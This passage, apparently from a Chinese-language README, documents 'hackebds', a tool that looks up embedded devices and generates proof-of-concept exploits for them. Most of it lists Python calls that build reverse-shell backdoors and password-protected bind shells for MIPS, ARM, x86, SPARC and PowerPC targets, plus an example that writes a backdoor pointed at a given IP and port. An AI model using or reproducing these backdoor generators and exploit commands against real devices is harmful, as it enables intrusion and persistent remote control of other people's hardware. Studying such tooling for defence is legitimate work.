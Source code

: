 在命令输出过程中如果出现如下警告

/usr/local/lib/python3.8/dist-packages/fuzzywuzzy/fuzz.py:11: UserWarning: Using slow pure-python SequenceMatcher. Install python-Levenshtein to remove this warning
  warnings.warn('Using slow pure-python SequenceMatcher. Install python-Levenshtein to remove this warning')

那么可以使用如下命令安装python-levenshtein,安装后可以提升命令的检索速度4倍左右

```
pip3 install python-levenshtein
```



![image-20230213105520663](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213105520663.png)

​	生成设备对应的POC可以使用-p或者--poc，此可能为python脚本、命令等等可能需要自行修改

```
hackebds -model ex200 -p
```

![image-20230213105925356](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213105925356.png)

如果在测试中发现了漏洞想在这款工具中加入新的设备的基本信息，POC文件等可以使用-add功能或者在/tmp/model_tree_info/目录下新建设备的目录目录的格式可以参考标准生成的格式，插入完成后便可以使用工具的搜索以及POC生成功能

```
hackebds -add
```

![image-20230213111024854](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213111024854.png)






```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86el_backdoor(reverse_ip,reverse_port)
>>> x64el_backdoor(reverse_ip, reverse_port)
>>> sparc_backdoor(reverse_ip, reverse_port)#big endian
>>> powerpc_backdoor(reverse_ip, reverse_port)
>>> powerpcle_backdoor(reverse_ip, reverse_port)
>>> powerpc64_backdoor(reverse_ip, reverse_port)
>>> powerpc64le_backdoor(reverse_ip, reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
>>> aarch64_ bind_ shell(listen_port, passwd)
>>> mips_bind_shell(listen_port, passwd)
>>> mipsel_bind_shell(listen_port, passwd)
>>> sparc_bind_shell(listen_port, passwd)
>>> powerpc_bind_shell(listen_port, passwd)
```
列如:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```